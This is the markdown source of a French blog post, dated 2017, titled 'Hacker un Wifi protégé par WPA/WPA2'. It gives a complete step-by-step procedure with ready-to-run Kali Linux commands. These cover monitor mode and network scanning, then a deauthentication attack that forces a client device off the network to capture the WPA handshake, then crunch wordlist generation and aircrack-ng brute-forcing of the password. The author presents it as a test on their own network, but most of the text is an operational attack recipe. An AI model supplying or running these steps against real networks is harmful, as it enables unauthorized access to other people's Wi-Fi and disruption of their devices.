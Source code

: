 ```yaml
---
layout: post
title:  Hacker un Wifi protégé par WPA/WPA2
description: Utilisez Kali Linux pour hacker un Wifi protégé par WPA/WPA2
date:   2017-09-19 11:23:00 +0200
tags: hack kali wifi wpa
categories: hacking
---
```


Le principe est le suivant:

* **Analyse** du wifi cible
* **Capture** un **WPA handshake** *(une connexion au réseau Wifi)* en déconnectant un périphérique sur le Wifi
* **Crackage** du mot de passe contenu dans le **WPA handshake** par *bruteforce*

La première étape est de mettre en place  **airmong-ng**. Pour cela on va devoir activer le **mode moniteur** de notre carte réseau. Pour cela on liste les cartes réseaux disponnibles.

```bash
# airmon-ng
```

> Si vous n'en n'avez pas, il faut vous en acheter une *(un dongle USB wifi suffit)*

Dans notre cas on voit que l'on peut utiliser notre carte réseau **wlan0**. On active donc le **mode moniteur**.

```bash
# airmon-ng start wlan0
```

A partir d'ici, la carte réseau **wlan0** n'est plus disponnible *(vous n'avez plus internet)*, et une nouvelle carte réseau apparait. On peut la retrouver en faisant un `ifconfig`. Dans mon cas, il s'agit de **wlan0mon**.

## Analyse du Wifi

 On peut donc analyser les réseaux qui se trouvent autour de nous.

```bash
# airodump-ng wlan0mon
```

Cette commande va trouver des informations supplémentaires sur les wifi dont:

* le **BSSID**, l'adresse MAC du routeur
* le **CH**annel
* l' **AUTH**, le mode d'authentification
* le **ESSID**, le nom du routeur

Parmis toutes les lignes, mon résau apparait. Pensez à noter les information car elles nous seront utiles.

```bash
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                             
 18:D6:C7:85:7E:A0  -45        6        0    0   2  54e  WPA2 CCMP   PSK  TP-LINK_7EA0 
```

## Capture d'un WPA handshake

Un **WPA handshake** se déroule lors de la connexion d'un péripérique sur le Wifi. Notre but est d'en capturer un. Pour cela nous allons:

1. scanner le wifi pour trouver les périphériques
2. déconnecter un péripérique et attendre qu'il se reconnecte automatiquement

### Scan du Wifi

On scan donc le réseau avec la commande `airodump-ng` et les options:

* `-c` pour spécifier le channel
* `--bssid` 18:D6:C7:85:7E:A0 
* `-w` le répertoire ou seront stocké les fichiers d'output

```bash
# airodump-ng -c 10 --bssid 18:D6:C7:85:7E:A0 -w tplink  wlan0mon 
```

On laisse cette commande en arrière plan, elle va nous produire 3 fichiers donx un de type *xml*. C'est celui qui nous intéresse car il contient plus de détails sur les périphériques connectés sur le wifi.

### La déconnexion

Deux choix s'offrent à nous:

* attendre qu'un périphérique se connecte au wifi
* provoquer une déconnexion et attendre que l'appareil se reconnecte

Pour tester, je choisis de déconnecter mon smartphone. Pour cela, on trouve très facilement l' **addresse MAC** dans le fichier *tplink.kimset.netxml* generé.

```xml
<client-mac>94:EB:CD:25:E0:C1</client-mac>
<client-manuf>BlackBerry RTS</client-manuf>
```

Il suffit de noter l'adresse MAC et de lancer `aireplay-ng` avec les paramètres:

* `-0` pour envoyer un signal de désauthentification
* `-a` le BSSID de notre Wifi
*

```bash
# aireplay-ng -0 2 -a 18:D6:C7:85:7E:A0 -c 94:EB:CD:25:E0:C1 wlan0mon
```

On attend quelques secondes, et le périphérique se reconnecte automatiquement. On obtient donc un **WPA Handshake** qui est contenu dans le fichier *tplink.cpa*.


## Le crackage

Maintenant que nous avons obtenu un packet contenant le mot de passe WPA crypté, il suffit de tester plusieurs combinaisons jusqu'à en trouver un correspondante: on appelle cela un bruteforce;

### le dictionnaire

Pour trouver un mot de passe il nous faut... des mots de passe! On peut trouver des[fichiers textes de plusieurs giga-octes des mots de passe les plus utilisés](http://www.wirelesshack.org/wpa-wpa2-word-list-dictionaries.html). Dans mon cas, je sais que le mot de passe de mon Wifi contient 8 chiffres. Je vais donc utiliser `crunch` pour génerer toutes les combinaisons possibles. `crunch` utilise plusieurs paramètres:

1. la longueur minimum
2. la longueur maximum
3. les caractères à utiliser

On envoie tout ça dans un fichier *passwords.txt*.

```bash
# crunch 8 8 12345678 > passwords.txt
Crunch will now generate the following amount of data: 387420489 bytes
369 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 43046721
```

En quelques secondes on obtiens un fichier de 43046721 lignes!

### Le bruteforce

On passe à l'action. Ici nous allons effectuer bruteforcer le mot de passe. Pour cela nous utilisons `aircrack-ng` qui va tous les mots de passe présents dans notre dictionnaire. Pour cel nous avons besoin d'un **dictionnare de mots de passe**.

```bash
# aircrack-ng -a2 -b 18:D6:C7:85:7E:A0 -w /root/Desktop/passwords.txt /root/Desktop/tplink.cap
```

Et au bout de quelques temps:

![/img/blog/crack_wpa.png]




